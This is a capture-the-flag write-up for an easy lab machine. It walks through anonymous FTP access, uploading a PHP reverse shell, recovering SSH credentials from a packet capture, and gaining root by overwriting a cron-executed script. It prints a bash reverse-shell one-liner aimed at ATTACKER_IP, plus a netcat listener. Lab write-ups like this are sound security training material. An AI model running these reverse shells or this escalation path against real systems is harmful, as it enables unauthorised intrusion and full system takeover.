


| Difficulty |  |  IP Address   |  |
| :--------: |--|:------------: |--|
|    Easy    |  |  10.10.96.254 |  |

---

### [ What is the secret spicy soup recipe? ]

Let's start off with a basic `nmap` scan on our target machine:

```
sudo nmap -sC -sV -vv 10.10.96.254
```

**Results:**


As we can see, there are 3 ports currently open on the machine: **21 (FTP)**, **22 (SSH)** and **80 (HTTP)**

We also see that the FTP server allows for **anonymous login**. This allows us to login with the username 'anonymous' and not require a password, so let's do that now:


We find two files in the server: **important.jpg** and **notice.txt**. There is also a **ftp** directory, although there seems to be nothing inside. Now let's download those files to our local machine using the `get` command.

**notice.txt**:


Looks like some fluff about 'Among Us' memes :sweat_smile: There is also mention of a person called **Maya**. We can note this down as it could be a potential username that we can use later on.

Next, let's look at **important.jpg**. Upon opening it, we are greeted with the following error:


Let's check the file format to find out what type of file this really is. We can do so by checking the file signature, which is also known as magic numbers or magic bytes. To do so, we can use `hexeditor`:


Let's focus on the first line of hexadecimal characters. This is because the magic bytes will always be placed at the very beginning of the file. Looking at the following [wikipedia page](https://en.wikipedia.org/wiki/List_of_file_signatures#:~:text=This%20is%20a%20list%20of,its%20contents%20will%20be%20unintelligible):


We can see that the file is actually a png file (*89 50 4E 47 0D 0A 1A 0A*). 

Now we just have to change the file extension of 'important.jpg' to 'important.png' and we should be able to view it:


Found the Among Us meme! While the content does not seem especially interesting, perhaps we can check for steganography by using `zsteg`:

```
zsteg important.png
```


I'm not well-versed with steganography, but I believe that there is nothing that we can use from these results. Hitting a dead-end here, let's go ahead and explore the other services that are currently running on our target.

When we visit the HTTP website, we are greeted with the following page:


There is a 'contact us' link that opens the mailto functionality:


---

From this [Wikipedia page](https://en.wikipedia.org/wiki/Mailto), I learnt that mailto is a Uniform Resource Identifier (URI) scheme for email addresses. It is used to produce hyperlinks on websites that allow users to send an email to a specific address directly from an HTML document, without having to copy it and entering it into an email client. 

---

It would seem that mailto has not been properly configured on this website as it points to '#' instead of an email address. Looking at the source code of the page, we can confirm this as the developer has left a comment:


At first, I thought that we would be exploiting a vulnerability with this mailto functionality. However, after doing some research online, I was unable to find a vulnerability that could be used for this room.

Next,let's run a `gobuster` scan to enumerate any hidden directories on this web server:

```
gobuster dir -u http://10.10.96.254/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


Gobuster managed to find a **/files** directory! 

Visiting this directory, we can see all the files that were on the FTP server earlier on:


Great! This means that we can upload a reverse shell script onto the FTP server and then access it from this web directory. This will then have the web server execute the script.

We'll use the PHP reverse shell script created by [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). 

To upload the reverse shell script, we use the `put` command on the FTP server. I uploaded the script to the 'ftp' directory on the FTP server. Upon doing so, we can see the uploaded script on the web server:



Now, we just have to run a netcat listener:

```
nc -lvnp 1234
```

And then access the file from within our web browser. The reverse shell will then be opened:


And we're in!

Looking around the machine, we can find the **recipe.txt** file in the root directory:


This file gives us the flag to the first question:


The secret soup recipe is **love**.

---

### [ What are the contents of user.txt? ]

Also within the root directory, we can also see an interesting directory called **incidents**, which contains a pcap file called **suspicious.pcapng**:



I opened the pcap file in Wireshark:


We will need to sieve through the captured packets to see if we can obtain any usable information. 

Firstly, let's check out the **HTTP** traffic captured as that is unencrypted and could reveal some sensitive information. We do this by searching for `http` in the search bar:


There are only a few HTTP packets and none of them contain anything really useful. With that said, it seems as if someone prior had already conducted the same attack as us, having uploaded their own reverse shell onto the FTP server.

Next, let's look at the **TCP** traffic. We can simply right-click on any of the TCP packets and click on 'Follow' > 'TCP Stream'.

While looking through the TCP stream, I found something interesting:


Nice! We've found a potential username and password:

> lennie : c4ntg3t3n0ughsp1c3

With this newfound credentials, let's try to log into the SSH server:


And we're in! 

We can then obtain **user.txt** from the home directory of the user lennie.

---

### [ What are the contents of root.txt? ]

Within lennie's home directory, there are two interesting directories: **Documents** and **scripts**.

**Documents** contains some text files, but they didn't contain anything of interest.

**scripts** contained a 'planner.sh' script and 'startup_list.txt' file. What's interesting to note is that both of these files are owned by root:


Also, planner.sh is globally readable. Let's find out what it does:


It looks like it echoes the contents of the $LIST environment variable into 'startup_list.txt', before running a script called **print.sh**. 

Let's take a look at print.sh:


All it does is print "Done!" onto the terminal. 

With that said, print.sh actually belongs to lennie! This means that we are able to write over it and have it execute anything we want, such as opening a reverse shell. Let's use the bash reverse shell from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md):

```
bash -i >& /dev/tcp/ATTACKER_IP/1234 0>&1
```

With print.sh overwritten, we just have to figure out how we can execute planner.sh as root, which will then subsequently execute print.sh and open up the reverse shell.

At this point, I had an inkling that planner.sh was most probably being run as a cronjob by root. To verify this, we can use a nifty process snooping program called [pspy](https://github.com/DominicBreuker/pspy/blob/master/README.md).

After uploading the pspy executable onto the target machine, we execute it:


The scan shows that planner.sh is periodically run with the UID=0 (root). This confirms that it is indeed a cronjob belonging to root!

Now, all we have to do is set up our netcat listener, sit back and relax.

After a few seconds, our reverse shell is successfully opened and we are logged into the server as root:


With that, we can obtain **root.txt** from /root.

